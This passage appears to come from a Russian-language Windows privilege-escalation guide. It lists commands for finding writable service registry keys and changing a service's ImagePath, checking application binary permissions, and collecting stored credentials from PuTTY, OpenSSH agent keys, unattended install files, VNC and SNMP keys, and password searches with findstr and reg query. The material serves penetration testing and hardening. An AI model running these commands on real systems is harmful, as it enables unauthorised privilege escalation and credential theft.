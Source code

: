 ## Разрешения на изменение реестра служб

Вы должны проверить, можете ли вы изменить реестр какой-либо службы. Вы можете **проверить** свои **разрешения** в **реестре служб,** выполнив:

```
reg query hklm\System\CurrentControlSet\Services /s /v imagepath #Get the binary paths of the services

#Try to write every service with its current content (to check if you have write permissions)
for /f %a in ('reg query hklm\system\currentcontrolset\services') do del %temp%\reg.hiv 2>nul & reg save %a %temp%\reg.hiv 2>nul && reg restore %a %temp%\reg.hiv 2>nul && echo You can modify %a

get-acl HKLM:\System\CurrentControlSet\services\* | Format-List * | findstr /i "<Username> Users Path Everyone"
```

Проверьте, есть ли у **аутентифицированных пользователей** или **NT AUTHORITY\INTERACTIVE** полный контроль. В этом случае вы можете изменить двоичный файл, который будет выполняться службой.

Чтобы изменить путь исполняемого файла:

```
reg add HKLM\SYSTEM\CurrentControlSet\services\<service_name> /v ImagePath /t REG_EXPAND_SZ /d C:\path\new\binary /f
```

# Приложения

## Установленные приложения

Проверьте **права доступа к двоичным файлам** (возможно, вы сможете перезаписать один из них и повысить привилегии) и к **папкам** ( [захват DLL](/windows-hardening/windows-local-privilege-escalation/dll-hijacking) ).

```
dir /a "C:\Program Files"

dir /a "C:\Program Files (x86)"

reg query HKEY_LOCAL_MACHINE\SOFTWARE

Get-ChildItem 'C:\Program Files', 'C:\Program Files (x86)' | ft Parent,Name,LastWriteTime

Get-ChildItem -path Registry::HKEY_LOCAL_MACHINE\SOFTWARE | ft Name
```

# Файлы и реестр (учетные данные)

```
reg query "HKCU\Software\SimonTatham\PuTTY\Sessions" /s | findstr "HKEY_CURRENT_USER HostName PortNumber UserName PublicKeyFile PortForwardings ConnectionSharing ProxyPassword ProxyUsername" #Check the values saved in each session, user/password could be there
```

## Ключи хоста Putty SSH

```
reg query HKCU\Software\SimonTatham\PuTTY\SshHostKeys\
```

## Ключи SSH в реестре

Закрытые ключи SSH могут храниться внутри раздела реестра `HKCU\Software\OpenSSH\Agent\Keys`, поэтому вам следует проверить, есть ли там что-нибудь интересное:

```
reg query HKEY_CURRENT_USER\Software\OpenSSH\Agent\Keys
```

Если вы найдете какую-либо запись внутри этого пути, вероятно, это будет сохраненный ключ SSH. Он хранится в зашифрованном виде, но его можно легко расшифровать с помощью [https://github.com/ropnop/windows_sshagent_extract](https://github.com/ropnop/windows_sshagent_extract) . Подробнее об этом методе здесь:[](https://blog.ropnop.com/extracting-ssh-private-keys-from-windows-10-ssh-agent/)

Если `ssh-agent`служба не запущена и вы хотите, чтобы она автоматически запускалась при загрузке:

```
Get-Service ssh-agent | Set-Service -StartupType Automatic -PassThru | Start-Service
```

## Оставленные без присмотра файлы

```
C:\Windows\sysprep\sysprep.xml
C:\Windows\sysprep\sysprep.inf
C:\Windows\sysprep.inf
C:\Windows\Panther\Unattended.xml
C:\Windows\Panther\Unattend.xml
C:\Windows\Panther\Unattend\Unattend.xml
C:\Windows\Panther\Unattend\Unattended.xml
C:\Windows\System32\Sysprep\unattend.xml
C:\Windows\System32\Sysprep\unattended.xml
C:\unattend.txt
C:\unattend.inf
dir /s *sysprep.inf *sysprep.xml *unattended.xml *unattend.xml *unattend.txt 2>nul
```

## Внутри реестра

**Возможные ключи реестра с учетными данными**

```
reg query "HKCU\Software\ORL\WinVNC3\Password"
reg query "HKLM\SYSTEM\CurrentControlSet\Services\SNMP" /s
reg query "HKCU\Software\TightVNC\Server"
reg query "HKCU\Software\OpenSSH\Agent\Key"
```

## **Общий поиск пароля в файлах и реестре**

**Поиск содержимого файла**

```
cd C:\ & findstr /SI /M "password" *.xml *.ini *.txt
findstr /si password *.xml *.ini *.txt *.config
findstr /spin "password" *.*
```

Поиск файла с определенным именем файла

```
dir /S /B *pass*.txt == *pass*.xml == *pass*.ini == *cred* == *vnc* == *.config*
where /R C:\ user.txt
where /R C:\ *.ini
```

Найдите в реестре имена ключей и пароли.

```
REG QUERY HKLM /F "password" /t REG_SZ /S /K
REG QUERY HKCU /F "password" /t REG_SZ /S /K
REG QUERY HKLM /F "password" /t REG_SZ /S /d
REG QUERY HKCU /F "password" /t REG_SZ /S /d
```